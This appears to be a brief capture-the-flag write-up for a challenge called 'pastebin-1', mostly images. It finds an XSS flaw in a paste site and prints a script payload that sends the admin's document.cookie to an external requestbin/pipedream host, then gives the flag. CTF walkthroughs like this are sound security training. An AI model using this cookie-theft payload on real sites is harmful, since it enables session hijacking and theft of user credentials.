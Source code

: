 # pastebin-1

<p align="center">
    <img src="images/pastebin-1.png" style="border: 0.8px solid black" caption="Challenge" /><br/>
</p>

Notice that the website is vulnerable to XSS

<p align="center">
    <kbd><img src="images/pastebin-2.png" style="border: 0.8px solid black" caption="Challenge" /><kbd><br/>
</p>

<p align="center">
    <img src="images/pastebin-3.png" style="border: 0.8px solid black" caption="Challenge" /><br/>
</p>

Use [requestbin](https://requestbin.com/) to receive web response.

Exploit XSS vulnerability to obtain admin cookie

`<script>new Image().src="https://enfai4qtftdcn.x.pipedream.net?c="+document.cookie;</script>`

<p align="center">
    <img src="images/pastebin-4.png" style="border: 0.8px solid black" caption="Challenge" /><br/>
</p>

Use the admin page to access the vulnerable page.

<p align="center">
    <img src="images/pastebin-5.png" style="border: 0.8px solid black" caption="Challenge" /><br/>
</p>

Got the flag on requestbin

<p align="center">
    <img src="images/pastebin-6.png" style="border: 0.8px solid black" caption="Challenge" /><br/>
</p>

Flag: `flag{d1dn7_n33d_70_b3_1n_ru57}`